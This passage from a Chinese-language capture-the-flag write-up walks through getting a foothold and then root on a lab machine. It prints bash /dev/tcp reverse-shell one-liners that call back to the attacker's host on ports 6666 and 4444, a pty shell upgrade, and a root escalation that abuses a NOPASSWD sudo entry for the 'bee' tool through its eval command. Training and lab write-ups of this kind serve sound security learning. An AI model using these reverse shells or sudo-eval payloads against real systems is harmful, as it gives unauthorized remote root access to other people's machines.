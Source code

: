 我们运行一个后门 反弹shell 把终端弹到我自己电脑的6666端口上
```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.2/6666 <&1'
```
![image](https://github.com/user-attachments/assets/5aa73afe-0dd0-4ac9-b62e-52b5d2989925)

这边是成功连接到靶机
我们发现userflag wwwdata用户没有权限获取 他在johncusack目录下 那我们应该是需要尝试切换到
johncusack账户
```bash
su johncusack 
```
这边输入密码后 我一开始没有反应，应该是shell不够稳定 我运行了以下代码加固我的shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
重新尝试登录，成功获取到了userflag

# 内网提权
我们检查一下sudo 权限， 看看有没有密码就可以执行的命令
```bash
sudo -l
```
返回结果

```bash
(ALL) NOPASSWD: /usr/local/bin/bee
```
```bash
sudo /usr/local/bin/bee --root=/var/www/html
```

发现存在eval命令 根据eval 构建payload

```bash
sudo /usr/local/bin/bee --root=/var/www/html eval "shell_exec('bash -c \"bash -i >& /dev/tcp/10.10.14.2/4444 0>&1\"');"
```
成功把root shell 弹到我的4444端口上（我用 root 身份在目标机上执行一个反弹 shell 脚本，回连我 Kali 的 4444 端口）

![image](https://github.com/user-attachments/assets/b98bf4eb-8805-4109-bd2d-df0c4a56ccad)
